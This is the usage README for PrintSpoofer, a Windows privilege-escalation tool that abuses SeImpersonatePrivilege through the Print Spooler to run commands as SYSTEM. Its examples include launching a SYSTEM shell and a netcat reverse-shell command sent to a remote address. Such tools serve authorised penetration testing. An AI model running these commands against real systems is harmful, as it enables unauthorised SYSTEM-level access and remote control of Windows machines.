 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>print.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      print.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      print.exe -c "c:\Temp\nc.exe 123.123.123 1337 -e cmd"
```
